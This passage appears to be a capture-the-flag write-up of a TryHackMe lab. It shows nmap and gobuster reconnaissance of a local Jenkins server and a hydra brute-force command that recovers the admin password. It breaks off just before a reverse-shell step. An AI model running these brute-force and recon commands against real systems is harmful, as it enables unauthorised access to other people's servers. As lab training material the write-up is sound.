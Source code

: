running an nmap scan for version:

```bash
nmap -sV -sC -p8080 localhost
```

![screenshot](/assets/img/thm/internal/14.png)

Wappalyzer : `Jenkins 2.250`

gobuster scan:

```bash
gobuster dir --wordlist=/usr/share/dict/directory-list-2.3-medium.txt  -b "403,404" --url=http://localhost:8080/ -t 100
```

Output: mehhh.

checking running processes:

```bash
ps aux
```

interesting output:

```
root      1430  0.0  0.1 404800  3448 ?        Sl   09:18   0:00 /usr/bin/docker-proxy -proto tcp -host-ip 127.0.0.1 -host-port 8080 -container-ip 172.17.0.2 -container-port 8080
root      1445  0.0  0.2   9364  4880 ?        Sl   09:18   0:00 containerd-shim -namespace moby -workdir /var/lib/containerd/io.containerd.runtime.v1.linux/moby/7b979a7af7785217d1c5a58e7296fb7aaed912c61181af6d84
aubrean+  1484  0.0  0.0   1148     4 ?        Ss   09:18   0:00 /sbin/tini -- /usr/local/bin/jenkins.sh
aubrean+  1518  2.3 35.6 2775352 726556 ?      Sl   09:18   2:38 java -Duser.home=/var/jenkins_home -Djenkins.model.Jenkins.slaveAgentPort=50000 -jar /usr/share/jenkins/jenkins.war
aubrean+  1556  0.0  0.0      0     0 ?        Z    09:18   0:00 [jenkins.sh] <defunct>
```

so looking at processes, we can see that the jenkins is mostly running in a docker and is using proxy.

after hrs of wasting time, ;\_; Trying to access docker files or jenkins.sh via other means. lets try brute forcing jenkins via hydra:

```bash
hydra -s 8080 127.0.0.1 http-form-post "/j_acegi_security_check:j_username=admin&j_password=^PASS^:Invalid username or password" -l admin -P /usr/share/dict/rockyou.txt -t 64 -w 30
```

ohoo

```
[8080][http-post-form] host: 127.0.0.1   login: admin   password: spongebob
```

Opening script console at http://localhost:8080/script

we can use the following to run a reverse shell:
